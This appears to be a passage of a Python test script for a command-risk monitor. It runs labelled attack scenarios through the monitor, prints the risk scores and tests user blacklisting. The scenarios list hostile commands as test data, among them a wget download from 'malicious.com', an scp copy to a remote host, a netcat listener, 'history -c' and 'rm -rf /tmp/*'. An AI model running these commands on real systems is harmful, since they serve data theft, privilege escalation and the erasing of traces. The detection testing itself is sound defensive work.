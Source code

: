 ```bash
            "expected_risk": "Low"
        },
        {
            "name": "System Reconnaissance",
            "commands": ["ps aux", "netstat -tuln", "lsof", "who"],
            "expected_risk": "Medium"
        },
        {
            "name": "Privilege Escalation",
            "commands": ["sudo su", "chmod +s", "passwd", "visudo"],
            "expected_risk": "High"
        },
        {
            "name": "Data Exfiltration",
            "commands": ["scp file.txt user@remote:/tmp/", "wget http://malicious.com/file", "nc -l 4444"],
            "expected_risk": "High"
        },
        {
            "name": "Defense Evasion",
            "commands": ["history -c", "rm -rf /tmp/*", "shred -u file.txt"],
            "expected_risk": "Critical"
        }
    ]
    
    for scenario in test_scenarios:
        print(f"\n📊 Testing: {scenario['name']}")
        print("-" * 50)
        
        cumulative_risk = 0.0
        for command in scenario['commands']:
            result = monitor.test_command("testuser", command)
            risk_score = result['risk_score']
            cumulative_risk = result['cumulative_risk']
            
            # Color code output
            if risk_score < 0.3:
                risk_level = "🟢 LOW"
            elif risk_score < 0.6:
                risk_level = "🟡 MEDIUM"
            elif risk_score < 0.8:
                risk_level = "🟠 HIGH"
            else:
                risk_level = "🔴 CRITICAL"
            
            print(f"Command: {command}")
            print(f"Risk Score: {risk_score:.3f} {risk_level}")
            print(f"Cumulative Risk: {cumulative_risk:.3f}")
            print(f"Model Used: {result['model_used']}")
            print("-" * 30)
            time.sleep(1)
        
        print(f"Expected: {scenario['expected_risk']}")
        print(f"Final Cumulative Risk: {cumulative_risk:.3f}")
    
    # Test blacklist functionality
    print("\n🔒 Testing Blacklist Functionality:")
    print("-" * 50)
    
    monitor.blacklist_user("malicious_user", "Comprehensive test blacklisting")
    stats = monitor.get_system_stats()
    print(f"Blacklisted users: {stats['blacklisted_users']}")
    
```